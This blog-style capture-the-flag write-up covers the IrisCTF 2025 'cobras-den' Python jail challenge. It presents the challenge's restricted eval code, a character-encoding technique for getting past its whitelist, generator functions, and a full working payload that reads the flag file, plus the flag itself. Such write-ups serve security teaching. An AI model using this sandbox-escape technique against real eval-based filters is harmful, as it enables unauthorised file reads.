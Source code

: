 +++
title = 'IrisCTF 2025 - misc/cobras-den'
date = 2025-01-06T00:08:48-05:00
draft = false
+++

Cobra's Den was a python jail escape challenge for IrisCTF 2025. What better way to start the new year than with a pyjail?

Lets take a look at the code
```python
# flag stored at 'flag' in current dir
import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})

whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")

```

The whitelist is quite restrictive, we can only use the characters from `<ph[(cobras.den)]+~` and we have to stay under 1115 characters. We are told the flag is located in flag at the current directory and give the characters we have we can call `open()` and `read()`, but encoding flag will be a challenge. Let's see how we can use the characters we are given to encode `flag`

## Getting characters without characters

First, we can do comparisons on empty tuples which gets us `True` and `False`. In python, `True` is equal to 1 and `False` is equal to 0. We can use these to encode numbers and then use `chr()` to encode flag. Unfortunetly we cannot use the equals sign to do:
```python
>>> ()==()
True
```
But we can use `>` which lets us do:
```python
>>> ()>()
False
```
We can use `~` the bitwise NOT operator to get -1
```python
>>> ~(()>())
-1
```
And since we also can use + we can add -1 to itself to get -2 and bitwise NOT to get 1
```python
>>> ~(~(()>())+~(()>()))
1
```
Unfortunetly if we try to build out the digits 1-9 this way, we run into the character limit as the strings get very lengthy. Looking at the built in functions we could use, I saw abs(), and using that we can get 1 by doing:
```python
>>> abs(~(()<()))
1
```

Now we can build out the numbers 1 - 9:
```python
def encode_digit(number: int):
    if number == 0:
        return """()<()"""
    if number == 1:
        return """abs(~(()<()))""" 
    if number == 2:
        return """abs(~(()<())+~(()<()))"""
    if number == 3:
        return """abs(~(()<())+~(()<())+~(()<()))"""
    if number == 4:
        return """abs(~(()<())<<abs(~(()<())+~(()<())))"""
    if number == 5:
        return """abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<()))"""
    if number == 6:
        return """abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))"""
    if number == 7:
        return """abs(~(()<())<<abs(~(()<())+~(()<())+~(()<())))+~(()<())"""
    if number == 8:
        return """abs(~(()<())<<abs(~(()<())+~(()<())+~(()<())))"""
    if number == 9:
        return """abs((~(()<())<<abs(~(()<())+~(()<())+~(()<())))+~(()<()))"""
```

From there we can encode any number:
```python
def encode_number(number: int):
    if number < 10:
        return encode_digit(number)
    shifts = []
    current = number
    shift_val = 0
    while current > 0:
        if current & 1:  
            shifts.append(shift_val)
        current >>= 1  
        shift_val += 1
    txt = ""
    for shift in shifts:
        if txt:
            txt += "+"
        if shift == 0:
            txt += encode_number(1)
        else:
            txt += "(" + encode_number(1) + "<<" + encode_number(shift) + ")"
    return txt
```

And then any text:
```python
def encode_text(text: str):
    result = ""
    for ch in map(ord, text):
        result += "chr(" + encode_number(ch) + ")+"
    return result
```
Gettin us our final payload of just over 850 chars, well under the limit

```python
open(chr((abs(~(()<()))<<abs(~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr((abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr(abs(~(()<()))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr(abs(~(()<()))+(abs(~(()<()))<<abs(~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))).read()
```


`irisctf{pyth0n_has_s(+([]<[]))me_whacky_sh(+([]<[[]]))t}`